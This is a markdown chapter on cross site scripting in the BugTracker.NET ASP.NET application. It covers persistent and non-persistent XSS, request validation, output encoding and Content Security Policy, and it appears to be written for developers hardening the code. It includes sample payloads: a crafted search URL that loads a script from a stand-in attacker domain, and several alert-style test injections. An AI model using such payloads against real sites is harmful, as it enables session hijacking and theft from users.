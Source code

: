 #Cross Site Scripting

One of the most common exploits on the web is cross site scripting or XSS. As you likely know you can embed JavaScript nearly anywhere in the DOM and the browser will happily execute it. This is a throw back to the days when all JavaScript looked like

```
   <button onclick="if(document.forms[0].elements[0].value == '') return false; return true;"/>
```

You may have noticed that you can include script tags in the head (as used to be suggested years ago) and in the footer (as is recommended for most scripts these days).

The problem with this is that it means that if users enter something that looks like JavaScript and the sever returns it then the browser will interpret it as JavaScript and execute it. This sort of behaviour is more common that you would expect. Any time that you show the search criteria that lead to a search results page this is an opportunity for a cross site scripting attack.

Being able to place arbitrary JavaScript on the page opens up all sorts of potential issues. On a login page the JavaScript could capture keystrokes and forward them to an attacker. On other pages actions could be executed. It is even possible that the injected script could perform AJAX actions. That is especiall problematic on a single page application where all actions are executed via AJAX end points. The requests sent from the injected script will carry with them the authentication cookies from the user's session granting it the same permissions as the user.

##Non Persistent XSS

In the case of showing the search criteria this is a non-persistent XSS. Another user will not see your search criteria so they cannot be harmed by anything you enter. This doesn't mean that you're users aren't at risk.

Let's look a bit more at the search example: a user will enter a search string, say "user interface", and then hit 'search'. This will perform a get to the server so that the resulting url would look like

    http://example.com/search.aspx?q=user%20interface

A malicious attacker could send a link with an attack encoded in it to a user via e-mail. That user would click on the link and, being already logged in, would be taken to the search results page where the payload of the attack would be inserted  into the document and executed.

    http://example.com/search.aspx?q=%3Cscript%20src=%27evildomain.com/attack.js%27%3E%3C/script%3E  

At a glance even a well trained user might see nothing wrong with the link. With their script injected into the page the malicious attacker gains control of the legitimate user's session.

##Persistent XSS

If your application ever takes in user input and then displays it you might be vulnerable to XSS. Does that sound like every application in the world? It more or less is. In BugTracker.net there are multiple places where we do this. Any time a new bug is created a user will enter a name and a description. This information is then saved into the database, persisted if you will. Subsequent users will be able to visit this bug page and see the information entered.

This is an example of a persistent XSS, one that can be communicated to other users through regular use of the site. Victims need not do anything other than visit the site to have the attack inflicted upon them.

![Flow of a persistent XSS attack](Images/XSS flow.png)

##Saving Ourselves

There are a couple of approaches to preventing XSS attacks. The first is to prevent an attack payload from ever making it to the server and the second is to prevent it from being shown on the browser. We can use a combination of these two approaches to prevent attacks.

We're lucky in that ASP.net will actually detect malicious payload and block the request. If we try to enter

    <script>alert("hi");</script>

on the edit_org.aspx page in BugTracker.net then we'll see this error message come up.

![](Images/asp XSS warning.jpg)

That's fantastic! We're well protected, right? The protection works by blocking any input that contains angle brackets in the shape of a tag. Well there are times when you actually want to send some limited angle brackets to the server. Consider a rich text editor, we would like to support tags there so that the content can be rendered out properly. In that scenario we would disable the request validation for the page. Request validation can also be disabled globally but that is a terrible idea as it exposes the entire site to exploit instead of just one area: minimize the area of attack.

On a single page we're looking for ValidateRequest to be set to false like so:

```
<%@ Page language="C#" ValidateRequest="false" CodeBehind="search.aspx.cs" Inherits="btnet.search" AutoEventWireup="True" %>
```
The github search is [pretty handy](https://github.com/dpaquette/BugTracker.NET/search?p=2&q=validateRequest%3D%22false%22&type=Code&utf8=%E2%9C%93) for this sort of thing. We can see that there are about 20 places where request validation is explicitly turned off. That's pretty significant as it is approximately 1/6th of the pages in BugTracker.net.  

However an audit of the pages with request validation turned off found no issues. There are some additional built in tools in ASP.net that protect us. The first, and the one that saves us here, is that using code behind to set the value on a field will automatically escape the content.

In a test I entered

    </textarea><script>alert("hi");</script>

into the edit box of edit_comment.aspx, a page with request validation turned off. The markup returned by the server was well escaped

    <textarea name="comment" id="comment" rows="16" cols="80" class="txt resizable">&lt;/textarea&gt; &lt;script&gt;alert(&quot;hi&quot;);&lt;/script&gt;</textarea>

Although unused in BugTracker.net another option is to use <%: instead of <%= when writing out information in an aspx page. This will automatically encode the printed information. The <%= tool is pretty much unused in BugTracker.net as the original author preferred an approach closer to WinForms.

Going forward it would be a good idea to put in either some documentation about the approach to XSS or set up a coding standard that will prevent it. Catching XSS in coding reviews is pretty easy if you're looking for it. That the database contains unescaped data may be worrying to some: a new programmer may assume the data is clean. On the other hand escaping the data in the database means that it must be manually unescape in certain instances. The risk is lower in the case forcing unescaping on rendering than just rendering whatever we have.

Now that we're aware of how XSS is handled by BugTracker.net we can make sure that our programming team (of 2) deals with it properly.  

##The Nuclear Approach

One approach that I really like to preventing XSS is to use the [Content Security Policy](http://www.w3.org/TR/CSP/). This is a special header that instructs the browser how to deal with resources external to the page. By setting this header correctly you can instruct the browser to not run inline scripts and instead run only external scripts. This means that there is no way to inject script content into the HTML page in a way such that it will be executed.

The header is as simple as

    Content-Security-Policy script-src 'self';

However [browser support](http://caniuse.com/#feat=contentsecuritypolicy) for this header remains spotty. It also means that you cannot include anything that you want to work between script tags - all your scripts must be external. I'm a big fan of this approach and I see it taking off in the next few years.

Unfortunately the work needed to split out all the scripts into distinct items in BugTracker.net is monumental. It is something we hope to address but only within the context of a larger rewrite of how JavaScript is handled in BugTracker.net.
